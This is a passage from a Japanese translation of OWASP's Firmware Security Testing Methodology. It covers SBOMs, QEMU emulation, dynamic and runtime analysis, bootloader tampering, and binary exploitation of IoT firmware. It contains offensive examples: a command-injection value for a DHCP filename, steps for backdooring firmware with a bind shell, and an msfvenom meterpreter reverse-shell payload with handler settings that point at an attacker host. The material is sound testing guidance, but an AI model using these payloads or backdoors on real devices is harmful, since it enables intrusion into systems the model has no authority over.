3. **完全性を検証** - SBOM 出力と手動のファイルシステム解析を相互参照し、ギャップを特定する
4. **CVE との相関** - 新しい脆弱性が公開された際、SBOM データを使用して即座に影響を評価する
5. **利害関係者との共有** - 開発チーム、セキュリティ運用、コンプライアンス担当者に SBOM レポートを提供する
6. **コンプライアンスのためのアーカイブ** - 監査証跡とインシデント対応のために過去の SBOM を維持する

##### CISA SBOM 最小要素 \(2025\)

ファームウェア SBOM が CISA によって定義される以下の最小要素を含むことを確認します。

* **サプライヤ名** - コンポーネントを作成、定義、識別するエンティティ
* **コンポーネント名** - 下のサプライヤがソフトウェアユニットに割り当てた名称
* **バージョン** - ソフトウェアの変更を示すために使用される識別子
* **その他の一意の識別子** - CPE \(Common Platform Enumeration\) や PURL \(Package URL\) などの追加の識別子
* **依存関係** - コンポーネント間の関係の特性
* **SBOM 作成者** - SBOM を作成したエンティティの名前
* **タイムスタンプ** - SBOM 作成日時の記録

参照: [https://www.cisa.gov/sbom](https://www.cisa.gov/sbom)

##### SBOM Tools and Formats

While EMBA provides comprehensive SBOM generation for firmware, other complementary tools include:

* **Syft** - CLI tool for generating SBOMs from container images and filesystems
* **Tern** - Inspection tool for containers to generate SBOM reports
* **CycloneDX** - Lightweight SBOM standard designed for application security
* **SPDX** - Standard format for communicating software component information

For firmware security assessments, EMBA's integrated approach is recommended as it combines SBOM generation with vulnerability analysis, binary security testing, and emulation capabilities in a single workflow.

### **\[ステージ 6\] ファームウェアのエミュレート**

前の手順で特定した詳細と手掛かりを使用して、潜在的な脆弱性を検証するためにファームウェアとそのカプセル化されたバイナリをエミュレートする必要があります。ファームウェアをエミュレートするには、以下に示すいくつかのアプローチがあります。

1. 部分的エミュレーション \(ユーザー空間\) - `/usr/bin/shellback` などのファームウェアの抽出済みファイルシステムから取り出したスタンドアロンバイナリのエミュレーション。
2. フルシステムエミュレーション - 偽の NVRAM を利用した完全なファームウェアとスタートアップ構成のエミュレーション。
3. 実デバイスまたは仮想マシンを使用したエミュレーション - 時には、ハードウェアやアーキテクチャの依存関係が原因で、部分的または完全エミュレーションが機能しないことがあります。アーキテクチャとエンディアンがラズベリーパイなどの所有するデバイスと一致する場合には、ルートファイルシステムまたは特定のバイナリをそのデバイスに転送して、さらにテストすることができます。この手法はターゲットと同じアーキテクチャおよびエンディアンを使用する構築済み仮想マシンにも適用されます。

#### 部分的エミュレーション \(ユーザーモードエミュレーション\)

バイナリの部分的エミュレーションを開始するには、以下の手順で適切な QEMU エミュレーションバイナリを選択するための CPU アーキテクチャとエンディアンを知る必要があります。

```text
$ binwalk -Y <bin> 
$ readelf -h <bin>
```

el - リトルエンディアン

eb - ビッグエンディアン

binwalk は以下のコマンドを使用して \(展開されたファームウェア内のバイナリからではなく\) パッケージ化されたファームウェアバイナリのエンディアンを特定するために使用できます。

```text
$ binwalk -Y UPG_ipc8120p-w7-M20-hi3516c-20160328_165229.ov

DECIMAL HEXADECIMAL DESCRIPTION

--------------------------------------------------------------------------------

3480 0xD98 ARM executable code, 32-bit, little endian, at least 1154 valid instructions
```

CPU アーキテクチャとエンディアンが特定されたら、適切な QEMU バイナリを配置して部分的エミュレーションを実行します \(フルファームウェアをエミュレートするためではなく、抽出したファームウェアでバイナリをエミュレートします。\)

通常は以下にあります。

`/usr/local/qemu-arch` または `/usr/bin/qemu-arch`

適切な QEMU バイナリを抽出したルートファイルシステムにコピーします。二番目のコマンドは static arm QEMU バイナリを、絶対パスを示す ZSH シェル内の抽出されたルートファイルシステムにコピーすることを示しています。

```text
> cp /usr/local/qemu-arch /extractedrootFS/

/home/embedos/firmware/_DIR850L_REVB_FW207WWb05_h1ke_beta1.decrypted.extracted/squashfs-root 
> cp /usr/bin/qemu-arm-static .
```

以下のコマンドで ARM バイナリ \(または適切なアーキテクチャ\) を実行し、 QEMU と chroot を使用してエミュレートします。

`$ sudo chroot . ./qemu-arch <binarytoemulate>`

以下の例は攻撃者のマシンが使用している可能性が高い、典型的な x64 アーキテクチャ内でエミュレートされた busybox を示しています。

```text
> sudo chroot . ./qemu-arm-static bin/busybox ls
[sudo] password for embedos: 
bin               etc               overlay           rom               sys               var
dev               lib               proc              root              tmp               www
dnsmasq_setup.sh  mnt               qemu-arm-static   sbin              usr
```

以下はポート 5515 で待ち受けるサービスをエミュレートする例です。

```text
> sudo chroot . ./qemu-arm-static usr/bin/shellback
```

また、同じサービスを qiling フレームワークでエミュレートすることも可能です。

```text
> ./qltool run --console False -f ~/_IoTGoat-x86.img.extracted/squashfs-root/usr/bin/shellback --rootfs ~/_IoTGoat-x86.img.extracted/squashfs-root
```

別のターミナルで、サービスがローカルで待ち受けているかどうかをチェックし、 netcat で接続してみます。

```text
> sudo lsof -i :5515
COMMAND     PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
qemu-arm- 13264 root    3u  IPv4 662221      0t0  TCP *:5515 (LISTEN)
> nc -nv 127.0.0.1 5515
Connection to 127.0.0.1 5515 port [tcp/*] succeeded!
[***]Successfully Connected to IoTGoat's Backdoor[***]
```

時折、リクエストが HTTP サーバーにより CGI バイナリにディスパッチされることがあります。 CGI バイナリをエミュレートするだけで、 HTTP サーバーをセットアップせずにプロセスプロシージャを解析したり、脆弱性を検証することが可能です。以下の例では MIPS CGI バイナリに GET リクエストを発行しています。

```text
~/DIR850L/squashfs-root/htdocs/web$ ls -l captcha.cgi
lrwxrwxrwx 1 root root     14 Oct 17  2017 captcha.cgi -> /htdocs/cgibin

# fix the broken symbolic link
~/DIR850L/squashfs-root/htdocs/web$ rm captcha.cgi && ln -s ../cgibin captcha.cgi

~/DIR850L/squashfs-root$ sudo chroot . ./qemu-mips-static -E REQUEST_METHOD="GET" -E REQUEST_URI="/captcha.cgi" -E REMOTE_ADDR="192.168.1.1" -E CONTENT_TYPE="text/html" /htdocs/web/captcha.cgi
HTTP/1.1 200 OK
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8"?><captcha>
    <result>FAIL</result><message>NO SESSION</message>
</captcha>
```

ターゲットバイナリをエミュレートして、そのインタプリタまたはリスニングサービスとやり取りします。次のフェーズで説明するように、アプリケーションとネットワークインタフェースをファジングします。

#### フルシステムエミュレーション

可能であれば、 firmadyne, firmware analysis toolkit, ARM-X Firmware Emulation Framework などの自動化ツールを使用して、ファームウェアのフルエミュレーションを実行します。これらのツールは本質的に QEMU や他の nvram などの環境機能のラッパーです。

* [https://github.com/attify/firmware-analysis-toolkit](https://github.com/attify/firmware-analysis-toolkit)
* [https://github.com/therealsaumil/armx/](https://github.com/therealsaumil/armx/)
* [https://github.com/getCUJO/MIPS-X](https://github.com/getCUJO/MIPS-X)
* [https://github.com/firmadyne/firmadyne](https://github.com/firmadyne/firmadyne)
* [https://github.com/qilingframework/qiling\#qltool](https://github.com/qilingframework/qiling#qltool)

firmware analysis toolkit を使用して、以下のコマンドを実行するだけです。

```text
sudo python3 ./fat.py IoTGoat-rpi-2.img --qemu 2.5.0 

                               __           _
                              / _|         | |
                             | |_    __ _  | |_
                             |  _|  / _` | | __|
                             | |   | (_| | | |_
                             |_|    \__,_|  \__|

                Welcome to the Firmware Analysis Toolkit - v0.3
    Offensive IoT Exploitation Training http://bit.do/offensiveiotexploitation
                  By Attify - https://attify.com  | @attifyme

[+] Firmware: IoTGoat-rpi-2.img
[+] Extracting the firmware...
[+] Image ID: 1
[+] Identifying architecture...
[+] Architecture: armel
[+] Building QEMU disk image...
[+] Setting up the network connection, please standby...
[+] Network interfaces: [('eth0', '192.168.1.1')]
[...]
Adding route to 192.168.1.1...
Starting firmware emulation... use Ctrl-a + x to exit
[    0.000000] Booting Linux on physical CPU 0x0
[    0.000000] Linux version 4.1.17+ (vagrant@vagrant-ubuntu-trusty-64) (gcc version 5.3.0 (GCC) ) #1 Thu Feb 18 01:05:21 UTC 2016
[    0.000000] CPU: ARMv7 Processor [412fc0f1] revision 1 (ARMv7), cr=10c5387d
[    0.000000] CPU: PIPT / VIPT nonaliasing data cache, PIPT instruction cache

BusyBox v1.28.4 () built-in shell (ash)

                                                           .--,\\\__         
 ██████╗ ██╗    ██╗ █████╗ ███████╗██████╗                  `-.    a`-.__    
██╔═══██╗██║    ██║██╔══██╗██╔════╝██╔══██╗                   |         ')   
██║   ██║██║ █╗ ██║███████║███████╗██████╔╝                  / \ _.-'-,`;    
██║   ██║██║███╗██║██╔══██║╚════██║██╔═══╝                  /     |   { /    
╚██████╔╝╚███╔███╔╝██║  ██║███████║██║                      /     |   { /    
 ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝            ..-"``~"-'      ;    )     
                                           ╦┌─┐╔╦╗╔═╗┌─┐┌─┐┌┬┐   ;'    `     
                                           ║│ │ ║ ║ ╦│ │├─┤ │   ;'    `      
                                           ╩└─┘ ╩ ╚═╝└─┘┴ ┴ ┴  ;'    `       
 ------------------------------------------------------------ ;'             
 GitHub: https://github.com/OWASP/IoTGoat                                                
 ------------------------------------------------------------   
root@IoTGoat:/#
```

_注: ファームウェアに一般的ではない圧縮、ファイルシステム、またはサポートされていないアーキテクチャが含まれている場合には、これらのツールに改良が必要になることがあります。_

### **\[ステージ 7\] 動的解析**

このステージでは、デバイスが通常の環境またはエミュレートされた環境で実行されている際に動的テストを実行します。このステージの目的はプロジェクトと与えられたアクセスのレベルにより異なります。通常、これにはブートローダ構成の改竄、ウェブおよび API テスト、ファジング \(ネットワークおよびアプリケーションサービス\) のほか、さまざまなツールセットを使用したアクティブスキャニングによる昇格アクセス \(root\) の取得やコード実行が含まれます。

役に立つツールは以下のとおりです \(網羅してはいません\) 。

* OWASP ZAP
* Burp Suite Community Edition \(free version\)
* Commix
* ファジングツール - American fuzzy loop \(AFL\) など
* ネットワークおよびプロトコルファジングツール - [Mutiny](https://github.com/Cisco-Talos/mutiny-fuzzer),  [boofuzz](https://github.com/jtpereyda/boofuzz), and [kitty](https://github.com/cisco-sas/kitty) など。
* Nmap
* NCrack
* Metasploit

#### 組み込みウェブアプリケーションテスト

[OWASP のテストガイド](https://www.owasp.org/index.php/OWASP_Testing_Project) や [アプリケーションセキュリティ検証標準 \(ASVS\)](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project) などの業界標準のウェブ手法を参照します。

組み込みデバイスのウェブアプリケーション内でレビューする具体的な領域は以下のとおりです。

* 潜在的なコマンドインジェクション脆弱性に対する診断やトラブルシューティングページ
* 認証および認可のスキームがエコシステムアプリケーションとファームウェアオペレーティングシステムプラットフォームの全体で同じフレームワークに対して妥当性確認されていること
* デフォルトユーザー名とパスワードが使用されているかどうかをテストします
* ウェブページでディレクトリトラバーサルとコンテンツディスカバリを実行して、デバッグ機能やテスト機能を識別します
* XSS や XXE などの入力妥当性確認およびサニタイズの脆弱性に対して SOAP/XML および API 通信を評価します
* アプリケーションパラメータをファジングし、例外やスタックトレースを観察します
  * メモリ破損脆弱性、フォーマット文字列欠陥、整数オーバーフローなどの一般的な C/C++ 脆弱性について、組み込みウェブアプリケーションサービスに対してターゲットペイロードを調整します

製品やそのアプリケーションインタフェースによって、テストケースは異なります。

#### ブートローダのテスト

デバイスの起動および U-boot などのブートローダを改変する場合には、以下のことを試みます。

* ブート時に "0" 、スペース、または他の識別された "マジックコード" を押して、ブートローダインタプリタシェルにアクセスを試みます。
* ブート引数の最後に '`init=/bin/sh`' を追加するなどのシェルコマンドを実行するように構成を改変します。
  * `#printenv`
  * `#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3`
  * `mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 int=/bin/sh`
  * `#saveenv`
  * `#boot`
* ワークステーションからローカルネットワークを介してイメージをロードするように tftp サーバーをセットアップします。デバイスがネットワークアクセスできることを確認します。
  * `#setenv ipaddr 192.168.2.2 #local IP of the device`
  * `#setenv serverip 192.168.2.1 #tftp server IP`
  * `#saveenv`
  * `#reset`
  * `#ping 192.168.2.1 #check if network access is available`
  * `#tftp ${loadaddr} uImage-3.6.35 #loadaddr takes two arguments: the address to load the file into and the filename of the image on the TFTP server`
* `ubootwrite.py` を使用して uboot イメージを書き込み、改変したファームウェアをプッシュして root 化します。
* 以下のようなデバッグ機能が有効であることをチェックします。
  * 詳細ログ
  * 任意のカーネルをロード
  * 信頼できないソースからのブート
* \*注意して使用してください: 一つのピンをグラウンドに接続し、デバイスのブートアップシーケンスを監視します。カーネルが展開する前に、グラウンドされたピンを SPI フラッシュチップのデータピン \(DO\) にショート/接続します。
* \*注意して使用してください: 一つのピンをグラウンドに接続し、デバイスのブートアップシーケンスを監視します。カーネルが展開する前に、 U-boot が UBI イメージを展開する瞬間に、グラウンドされたピンをピン 8 および 9 にショート/接続します。
  * \*ピンをショートする前に NAND フラッシュチップのデータシートを確認します。
* PXE ブート時にデバイスが取り込むための入力として、悪意のあるパラメータで不正な DHCP サーバーを構成します。
  * Metasploit の \(MSF\) DHCP 補助サーバーを使用し、 `'a";/bin/sh;#'` などのコマンドインジェクションコマンドで '`FILENAME`' パラメータを改変して、デバイスのスタートアップ手順の入力妥当性確認をテストします。

\*ハードウェアセキュリティテスト

#### ファームウェア完全性テスト

整合性や署名検証欠陥のためにカスタムファームウェアやコンパイル済みバイナリをアップロードしてみます。例えば、以下の手順を使用して、ブート時に起動するバックドアバインドシェルをコンパイルします。

1. firmware-mod-kit \(FMK\) でファームウェアを抽出します
2. ターゲットファームウェアアーキテクチャとエンディアンを特定します
3. Buildroot または環境に適した他の方法を使用してクロスコンパイラをビルドします
4. クロスコンパイラを使用してバックドアをビルドします
5. バックドアを抽出されたファームウェアの /usr/bin にコピーします
6. 適切な QEMU バイナリを抽出されたファームウェアの rootfs にコピーします
7. chroot および QEMU を使用してバックドアをエミュレートします
8. netcat を介してバックドアに接続します
9. 抽出されたファームウェアの rootfs から QEMU バイナリを削除します
10. 改変されたファームウェアを FMK で再パッケージします
11. firmware analysis toolkit \(FAT\) でエミュレートし、 netcat を使用してターゲットバックドア IP およびポートに接続して、バックドア化されたファームウェアをテストします
12. $$$$$$$$$$$$$

ルートシェルが動的解析、ブートローダ操作、またはハードウェアセキュリティテスト手段からすでに取得されている場合は、インプラントやリバースシェルなどのプリコンパイルされた悪意のあるバイナリを実行してみます。 command and control \(C&C\) フレームワークに使用される自動ペイロード/インプラントツールの使用を検討します。例えば、 Metasploit フレームワークと 'msfvenom' は以下の手順を使用して活用できます。

1. ターゲットファームウェアアーキテクチャとエンディアンを特定します。
2. `msfvenom` を使用して適切なターゲットペイロード \(-p\) 、攻撃者ホスト IP \(LHOST=\) 、リスニングポート番号 \(LPORT=\) 、ファイルタイプ \(-f\) 、アーキテクチャ \(--arch\) 、プラットフォーム \(--platform linux または windows\) 、出力ファイル \(-o\) を指定します。例: `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. 危殆化したデバイスにペイロードを転送し \(例えば、ローカルウェブサーバーを実行し、ペイロードをファイルシステムに wget/curl します\) 、ペイロードに実行権限があることを確認します。
4. 着信リクエストを処理するために Metasploit を準備します。例えば、 msfconsole で Metasploit を起動し、上記のペイロードに従って以下の設定を使用します。 exploit/multi/handler を使用します。
   * `set payload linux/armle/meterpreter_reverse_tcp`
   * `set LHOST 192.168.1.245 #attacker host IP`
   * `set LPORT 445 #can be any unused port`
   * `set ExitOnSession false`
   * `exploit -j -z`
5. 危殆化したデバイス上で meterpreter リバースシェルを実行します。
6. meterpreter セッションがオープンするのを見ます。
7. エクスプロイト後のアクティビティを実施します。
8. $$$$$$$$$$$$$$$$

可能であれば、スタートアップスクリプト内にある脆弱性を特定して、再起動時にデバイスへの永続的にアクセスできるようにします。このような脆弱性は起動スクリプトが SD カードや、ルートファイルシステムの外部にあるストレージデータに使用されるフラッシュボリュームなど、信頼できないマウントされた場所にあるコードを参照したり、 [シンボリックリンク](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data) したり、依存したりする場合に発生します。

### **\[ステージ 8\] ランタイム解析**

ランタイム解析ではデバイスが通常環境またはエミュレートされた環境で実行している際に実行中のプロセスまたはバイナリにアタッチします。基本的なランタイム解析の手順を以下に示します。

1. `sudo chroot . ./qemu-arch -L <optionalLibPath> -g <gdb_port> <binary>`
2. gdb-multiarch をアタッチするか IDA を使用してバイナリをエミュレートします
3. memcpy, strncpy, strcmp など手順 4 で特定される関数にブレークポイントを設定します
4. 大きなペイロード文字列を実行して、ファジングツールを使用してオーバーフローまたはプロセスクラッシュを特定します
5. 脆弱性が特定された場合は手順 8 に進みます

役に立つかもしれないツールは以下のとおりです \(網羅してはいません\) 。

* gdb-multiarch
* [Peda](https://github.com/longld/peda)
* [GEF \(GDB Enhanced Features\)](https://github.com/hugsy/gef)
* [pwndbg](https://github.com/pwndbg/pwndbg)
* Frida
* ptrace
* strace
* Ghidra
* Radare2/Rizin
* [Cutter](https://github.com/rizinorg/cutter) \(GUI for Rizin\)

#### Free and Open-Source Reverse Engineering Tools

When selecting reverse engineering and binary analysis tools, prioritize free and open-source options to ensure accessibility and reproducibility:

**Disassemblers and Decompilers:**
* **Ghidra** - NSA's software reverse engineering framework with powerful decompiler supporting multiple architectures \(ARM, MIPS, x86, etc.\). Includes scripting capabilities via Python and Java.
* **Radare2/Rizin** - UNIX-like reverse engineering framework with command-line interface, supports extensive architecture set and binary formats.
* **Cutter** - Modern GUI for Rizin providing graph visualization, decompilation, and interactive analysis capabilities.

**Dynamic Analysis and Debugging:**
* **GEF, PEDA, pwndbg** - GDB enhancement scripts providing exploit development features, heap visualization, and improved debugging workflows.
* **Frida** - Dynamic instrumentation toolkit for injecting JavaScript into native applications on Windows, macOS, GNU/Linux, iOS, Android, and QNX.

**Binary Analysis Frameworks:**
* **angr** - Python-based binary analysis platform with symbolic execution, control-flow analysis, and vulnerability discovery capabilities.
* **QEMU** - Machine emulator supporting user-mode and system-mode emulation for firmware analysis across architectures.

These tools provide professional-grade reverse engineering capabilities without licensing costs, making firmware security analysis accessible to researchers, students, and organizations worldwide.

### **\[ステージ 9\] バイナリエクスプロイト**

前の手順でバイナリ内の脆弱性を特定した後、実世界の影響とリスクを明らかにするために適切な概念実証 \(PoC\) が必要です。エクスプロイトコードを開発するには低レベル言語 \(ASM, C/C++, シェルコードなど\) でのプログラミング経験と特定のターゲットアーキテクチャ \(MIPS, ARM, x86 など\) 内でのバックグラウンドが必要です。 PoC コードにはメモリ内の命令を制御することにより、デバイスやアプリケーション上で任意の実行を取得することが含まれます。

バイナリランタイム保護 \(NX, DEP, ASLR など\) が組込みシステム内に配置されることは一般的ではありませんが、このような場合にはリターン指向プログラミング \(ROP\) などの追加のテクニックが必要になることがあります。ROP により攻撃者はガジェットと呼ばれるターゲットプロセス/バイナリのコードに既存のコードをチェーンすることで任意の悪意のある機能を実装できます。ROP チェーンを形成することによりバッファオーバーフローなどの特定された脆弱性を悪用する手順を取得する必要があります。このような状況で役立つ可能性のあるツールには Capstone の gadget finder や ROPGadget - [https://github.com/JonathanSalwan/ROPgadget](https://github.com/JonathanSalwan/ROPgadget) があります。

さらなるガイダンスとして以下の参考文献を利用します。

* [https://azeria-labs.com/writing-arm-shellcode/](https://azeria-labs.com/writing-arm-shellcode/)
* [https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/](https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/)

### **Integrating FSTM with OWASP IoT Security Frameworks**

The OWASP Firmware Security Testing Methodology \(FSTM\) focuses specifically on deep firmware analysis, extraction, emulation, and exploitation. For comprehensive IoT device security assessments, integrate FSTM with complementary OWASP frameworks: the [OWASP IoT Security Testing Guide \(ISTG\)](https://owasp.org/owasp-istg/) for component-based testing, and the [OWASP IoT Security Verification Standard \(ISVS\)](https://github.com/OWASP/IoT-Security-Verification-Standard-ISVS) for requirements-driven assessments.

**ISTG Components Complementing FSTM:**

* **Physical Interfaces \(ISTG-PHY\)** - Hardware debug ports \(UART, JTAG, SWD\) used during FSTM Stage 2 for firmware extraction
* **Wireless Interfaces \(ISTG-WRLS\)** - WiFi, Bluetooth, Zigbee, LoRa security testing that extends FSTM Stage 7 dynamic analysis
* **User Interfaces \(ISTG-UI\)** - Web applications, mobile apps, and admin consoles covered in FSTM Stage 7
* **Data Exchange Services \(ISTG-DES\)** - REST APIs, MQTT, cloud backends that extend FSTM Stage 7 scope
* **Processing Units \(ISTG-PROC\)** - CPU, MCU, TPM, secure enclave testing beyond firmware scope
* **Memory \(ISTG-MEM\)** - RAM, flash, EEPROM security not covered by firmware filesystem analysis

**Recommended Integration Workflow:**

1. **Scoping** - Use ISTG's device model to identify all device components and define test scope
2. **Firmware Analysis** - Execute FSTM Stages 1-9 for comprehensive firmware security assessment
3. **Component Testing** - Apply ISTG test cases for non-firmware components \(hardware, network, wireless\)
4. **Documentation** - Report findings using ISTG test case references for standardized communication

**Example Integration Points:**

* **FSTM Stage 2** \(Obtaining firmware\) → Reference **ISTG-PHY** test cases for hardware extraction techniques
* **FSTM Stage 5** \(Analyzing filesystem\) → Map findings to **ISTG-FW\[INST\]** installed firmware test cases
* **FSTM Stage 7** \(Dynamic analysis\) → Extend with **ISTG-DES** API testing and **ISTG-WRLS** wireless protocol analysis
* **FSTM Stage 8** \(Runtime analysis\) → Complement with **ISTG-PROC** processor security test cases

**ISTG Firmware Test Case Categories:**

The ISTG firmware component \(**ISTG-FW**\) includes test cases that align with FSTM stages:

* Information Gathering - Source code disclosure, binaries, implementation details \(aligns with FSTM Stage 1\)
* Configuration and Patch Management - Outdated software, unnecessary functionality \(aligns with FSTM Stage 5\)
* Secrets - Hardcoded credentials, unencrypted storage \(aligns with FSTM Stage 5\)
* Cryptography - Weak algorithms, insecure implementations \(aligns with FSTM Stages 5 & 8\)
* Firmware Update Mechanism \(**ISTG-FW\[UPDT\]**\) - Secure OTA updates, signature verification
* Installed Firmware \(**ISTG-FW\[INST\]**\) - Runtime firmware security \(aligns with FSTM Stage 8\)

**When to Use Each Methodology:**

* **Use FSTM** when you need deep technical guidance on firmware extraction, binary analysis, emulation, and exploitation
* **Use ISTG** when you need a structured checklist covering the entire IoT device attack surface
* **Use Both** for enterprise IoT security assessments requiring comprehensive coverage and standardized reporting

#### **OWASP ISVS: Requirements-Driven Testing**

The [OWASP IoT Security Verification Standard \(ISVS\)](https://github.com/OWASP/IoT-Security-Verification-Standard-ISVS) defines **WHAT** security controls must be implemented, while FSTM defines **HOW** to test firmware components. ISVS provides a requirements framework that can drive your firmware testing scope and success criteria.

**ISVS Role in Firmware Testing:**

* **Requirements Definition** - ISVS Chapter V3 \(IoT Ecosystem\) and V4 \(Software Platform\) define security requirements for firmware components
* **Scope Determination** - Use ISVS security levels \(L1: Basic, L2: Standard, L3: Advanced\) to determine FSTM testing depth
* **Test Planning** - Map ISVS requirements to FSTM stages to ensure comprehensive coverage
* **Verification** - Use ISVS requirements as acceptance criteria when validating FSTM findings

**Workflow: Requirements → Testing → Verification**

```
1. Select ISVS Requirements → 2. Execute FSTM Testing → 3. Verify Against ISVS
         (WHAT)                       (HOW)                    (SUCCESS)
```

**Mapping ISVS V3 Requirements to FSTM Stages:**

| ISVS Requirement | FSTM Stage | Testing Focus |
|-----------------|-----------|--------------|
| V3.1 \(SBOM\) | Stage 5 | Verify SBOM generation from extracted filesystem \(see EMBA SBOM analysis\) |
| V3.2 \(Third-party Components\) | Stage 5 | Identify outdated libraries, vulnerable dependencies in extracted firmware |
| V3.3 \(Secure Communication\) | Stage 7 | Dynamic analysis of encrypted channels, certificate validation |
| V3.4 \(Firmware Update\) | Stage 7 | Test OTA update mechanism security, signature verification |
| V4.1 \(Memory Protection\) | Stage 8 | Runtime analysis of ASLR, DEP, stack canaries in binary execution |
| V4.2 \(Cryptography\) | Stage 5 & 8 | Static analysis of crypto implementations, runtime key storage validation |

**ISVS Security Levels and FSTM Testing Depth:**

* **Level 1 \(L1\)** - Basic security: Execute FSTM Stages 1-5 \(reconnaissance, extraction, static analysis\)
* **Level 2 \(L2\)** - Standard security: Add FSTM Stages 6-7 \(emulation, dynamic analysis\)
* **Level 3 \(L3\)** - Advanced security: Full FSTM Stages 1-9 \(including runtime analysis and exploitation\)

**Example: Requirements-Driven Firmware Assessment**

```
Client Request: "Assess IoT device firmware to ISVS Level 2 compliance"

Step 1: Review ISVS V3 and V4 requirements for L2 security level
Step 2: Execute FSTM Stages 1-7 to collect evidence against ISVS requirements
Step 3: Document findings using ISVS requirement IDs (e.g., "V3.4 FAIL: No signature verification on firmware updates")
Step 4: Provide remediation mapped to ISVS controls
```

**Key ISVS Requirements for Firmware Testing:**

* **V1.1.1** - Device maintains accurate SBOM \(verified via FSTM Stage 5 EMBA analysis\)
* **V3.2.2** - Third-party components updated to latest versions \(tested via dependency analysis\)
* **V3.4.1** - Firmware update mechanism uses digital signatures \(tested via FSTM Stage 7 OTA analysis\)
* **V4.1.1** - Memory protection mechanisms enabled \(verified via FSTM Stage 8 runtime analysis\)
* **V4.2.1** - Industry-standard cryptography used \(validated via FSTM Stage 5 binary analysis\)

**Resources:**

* OWASP ISVS: [https://github.com/OWASP/IoT-Security-Verification-Standard-ISVS](https://github.com/OWASP/IoT-Security-Verification-Standard-ISVS)
* OWASP ISTG: [https://owasp.org/owasp-istg/](https://owasp.org/owasp-istg/)
* ISTG GitHub: [https://github.com/OWASP/owasp-istg](https://github.com/OWASP/owasp-istg)
* ISTG Firmware Test Cases: [https://owasp.org/owasp-istg/03\_test\_cases/firmware/](https://owasp.org/owasp-istg/03_test_cases/firmware/)
* OWASP IoT Project: [https://owasp.org/www-project-internet-of-things/](https://owasp.org/www-project-internet-of-things/)

### **ファームウェアおよびバイナリ解析ツールのインデックス**

ファームウェアを評価する際にはツールを組み合わせて使用します。以下のリストは一般的に使用されるツールです。

* [Firmware Analysis Comparison Toolkit](https://github.com/fkie-cad/FACT_core) \(FACT\) - 2024年まで積極的にメンテされていました。Python 3.10-3.12 が必要です。
* [FWanalyzer](https://github.com/cruise-automation/fwanalyzer)
* [Firmwalker](https://github.com/craigz28/firmwalker)
* [Firmware Modification Kit](https://code.google.com/archive/p/firmware-mod-kit/)
* [Firmadyne](https://github.com/firmadyne/firmadyne)
* [ByteSweep](https://gitlab.com/bytesweep/bytesweep)
* [Binwalk](https://github.com/ReFirmLabs/binwalk) - **v3.x 推奨** \(Rust 書き換え, 2024年\) - 精度が向上し、大幅に高速化しました
* [Unblob](https://github.com/onekey-sec/unblob) - Rust による高速化パフォーマンスを備えた 30 以上のフォーマットをサポートする最新の抽出スイートです
* [Flashrom](https://www.flashrom.org/Flashrom)
* [Openocd](http://openocd.org/)
* [Angr binary analysis framework](https://github.com/angr/angr)
* [Binary Analysis Tool](http://www.binaryanalysis.org/en/home)
* [Binary Analysis Platform](https://github.com/binaryanalysisplatform/bap)
* [BINSEC](https://binsec.github.io/)
* [Checksec.sh](https://github.com/slimm609/checksec.sh)
* [CHIPSEC](https://github.com/chipsec/chipsec)
* [Capstone Engine](https://github.com/aquynh/capstone)
* [Qiling Advanced Binary Emulation Framework](https://github.com/qilingframework/qiling)
* [Triton dynamic binary analysis \(DBA\) framework](https://triton.quarkslab.com/)
* [EMBA - The firmware security analyzer](https://github.com/e-m-b-a/emba) - **2024 update includes SBOM generation** with cve-bin-tool integration
* [EMBArk - Enterprise firmware scanning environment](https://github.com/e-m-b-a/embark) - Official release 2024

**C/C++ Static Analysis Security Testing \(SAST\) Tools:**

* [Cppcheck](https://github.com/danmar/cppcheck) - C/C++ static analyzer with MISRA/CERT compliance support for embedded systems
* [Flawfinder](https://github.com/david-a-wheeler/flawfinder) - Lightweight security scanner for C/C++ identifying dangerous functions
* [Clang-Tidy](https://clang.llvm.org/extra/clang-tidy/) - LLVM-based linter detecting memory corruption and security issues
* [CodeQL](https://codeql.github.com/) - GitHub's semantic analysis engine with build-free C/C++ scanning \(free for OSS\)
* [Semgrep](https://github.com/semgrep/semgrep) - Fast pattern-based scanner with embedded/POSIX rulesets \(OSS version\)

### 脆弱性のあるファームウェア

ファームウェアの脆弱性を発見する練習として、以下の脆弱性のあるファームウェアプロジェクトを出発点として使用します。

* OWASP IoTGoat
  * [https://github.com/OWASP/IoTGoat](https://github.com/OWASP/IoTGoat)
* The Damn Vulnerable Router Firmware Project
  * [https://github.com/praetorian-code/DVRF](https://github.com/praetorian-code/DVRF)
* Damn Vulnerable ARM Router \(DVAR\)
  * [https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html](https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html)
* ARM-X
  * [https://github.com/therealsaumil/armx\#downloads](https://github.com/therealsaumil/armx#downloads)
* Azeria Labs VM 2.0
  * [https://azeria-labs.com/lab-vm-2-0/](https://azeria-labs.com/lab-vm-2-0/)
* Damn Vulnerable IoT Device \(DVID\)
  * [https://github.com/Vulcainreo/DVID](https://github.com/Vulcainreo/DVID)

**フィードバックと寄稿**

この手法を改善するために寄稿またはフィードバックを提供したい場合には、 [Aaron.guzman@owasp.org](mailto:Aaron.guzman@owasp.org) \([@scriptingxss](https://twitter.com/scriptingxss?)\) にコンタクトしてください。 [issue](https://github.com/scriptingxss/owasp-fstm/issues) または [pull request](https://github.com/scriptingxss/owasp-fstm/pulls) を開くようにしてください。私たちはそれを確認するようにしています。

スポンサーである Cisco Meraki, OWASP Inland Empire, OWASP Los Angeles, および José Alejandro Rivas Vidal の注意深いレビューに感謝します。

寄稿者の完全なリストは [https://github.com/scriptingxss/owasp-fstm/graphs/contributors](https://github.com/scriptingxss/owasp-fstm/graphs/contributors) にあります。

**ライセンス**

